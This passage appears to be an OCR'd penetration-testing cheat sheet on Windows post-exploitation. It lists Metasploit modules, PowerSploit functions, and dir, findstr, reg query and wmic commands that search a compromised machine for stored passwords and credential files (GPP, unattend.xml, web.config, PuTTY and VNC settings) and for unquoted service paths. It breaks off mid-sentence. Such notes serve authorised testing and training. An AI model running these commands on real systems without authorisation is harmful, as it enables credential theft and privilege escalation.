        post/windows/gather/credentials/gpp
       post/windows/gather/enum_unattend

       Powersploit

       https://github.com/PowerShellMafia/PowerSploit
       Get-GPPPassword
       Get-UnattendedInstallFile
       Get-Webconfig
       Get-ApplicationHost
       Get-SiteListPassword
       Get-CachedGPPPassword
       Get-RegistryAutoLogon

   Search filesystem:
       Search for specific keywords:

       dir /s *pass* == *cred* == *vnc* == *.config*

       Search certain file types for a keyword

       findstr /si password *.xml *.ini *.txt

       Search for certain files

       dir /b /s unattend.xml
       dir /b /s web.config
       dir /b /s sysprep.inf
       dir /b /s sysprep.xml
       dir /b /s *pass*
       dir /b /s vnc.ini

       Grep the registry for keywords (e.g. “passwords”)

       reg query HKLM /f password /t REG_SZ /s
       reg query HKCU /f password /t REG_SZ /s
       reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
       reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
       reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
       reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

       Find writeable files

       dir /a-r-d /s /b

           /a is to search for attributes. In this case r is read only and d is directory. The minus signs negate those attributes. So we're looking for writable files only.
           /s means recurse subdirectories
           /b means bare format. Path and filename only.

Trusted Service Paths

   List all unquoted service paths (minus built-in Windows services) on our compromised machine:

   wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

   Suppose we found:
